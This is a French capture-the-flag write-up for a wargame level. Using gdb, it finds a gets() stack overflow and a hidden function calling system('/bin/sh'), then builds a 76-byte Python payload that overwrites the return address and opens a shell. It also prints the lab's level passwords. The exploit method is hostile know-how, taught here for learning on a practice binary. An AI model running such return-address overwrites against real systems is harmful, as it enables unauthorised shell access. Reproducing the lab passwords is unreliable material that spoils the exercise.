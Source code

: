 On se connecte sur le level1, ou se trouve un **binaire** <code>level1</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > disas main
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
```

En regardant les fonctions utlisées, on trouve :

```gdb
(gdb) > info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

On trouve 2 fonctions qui ne sont pas utlisées, **frame_dummy** et **run** :

```gdb
(gdb) disas frame_dummy
Dump of assembler code for function frame_dummy:
   0x08048420 <+0>:     push   %ebp
   0x08048421 <+1>:     mov    %esp,%ebp
   0x08048423 <+3>:     sub    $0x18,%esp
   0x08048426 <+6>:     mov    0x80496bc,%eax
   0x0804842b <+11>:    test   %eax,%eax
   0x0804842d <+13>:    je     0x8048441 <frame_dummy+33>
   0x0804842f <+15>:    mov    $0x0,%eax
   0x08048434 <+20>:    test   %eax,%eax
   0x08048436 <+22>:    je     0x8048441 <frame_dummy+33>
   0x08048438 <+24>:    movl   $0x80496bc,(%esp)
   0x0804843f <+31>:    call   *%eax
   0x08048441 <+33>:    leave
   0x08048442 <+34>:    ret
   0x08048443 <+35>:    nop
End of assembler dump.
```
> On voit que cette fonction ne sert pas a grand chose.
```
(gdb) > disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```
> Ici on observe l'appelle de la commande **system** avec comme argument 0x8048584:
```gdb
x/s 0x8048584
0x8048584:       "/bin/sh"
```

On sait que l'on va devoir utliser la fonction **run** qui fait un **system("/bin/sh")**. Pour cela nous allons effectuer un buffer **overflow**.
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > b *0x08048490 # Breakpoint juste avant l'appelle de gets
Breakpoint 1 at 0x8048490
(gdb) > run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) > x/30x $esp
0xbffff6e0:     0xbffff6f0      0x0000002f      0xbffff73c      0xb7fd0ff4
0xbffff6f0:     0x080484a0      0x0804978c      0x00000001      0x08048321
0xbffff700:     0xb7fd13e4      0x00080000      0x0804978c      0x080484c1
0xbffff710:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff720:     0xb7fed280      0x00000000      0x080484a9      0xb7fd0ff4
0xbffff730:     0x080484a0      0x00000000      0x00000000      0xb7e454d3
0xbffff740:     0x00000001      0xbffff7d4      0xbffff7dc      0xb7fdc858
0xbffff750:     0x00000000      0xbffff71c
```
> 0xbffff73c => EIP
>
> 0xbffff6f0 => Buffer beginning
>
> 0xbffff73c - 0xbffff6f0 = 0x4c
>
> 0x4c = Offset : 76 characters

<pre><code>python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
</code></pre>
> \x44\x84\x04\x08 => 0x08048444, adresse de la fonction **run**

On se rend compte que nous ne restons pas dans le shell une fois le programme fini, donc on utlise la commande **cat** pour laisser ouvert ce dernier :

<pre><code>> (python -c "print 'A' * 76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
> cd ../level2 && cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
</code></pre>

For download :
<pre><code>scp -P4242 level1@IP:level1 .</code></pre>
> Password : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

# Explication bonus
Pour savoir quel taille est atriuber le char* utilisé dans **get** on calcule avec :
```gdb
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
```
> 0x50 - 0x10 = 0x40 = 64

Donc on a => <code>char* str[64];</code>

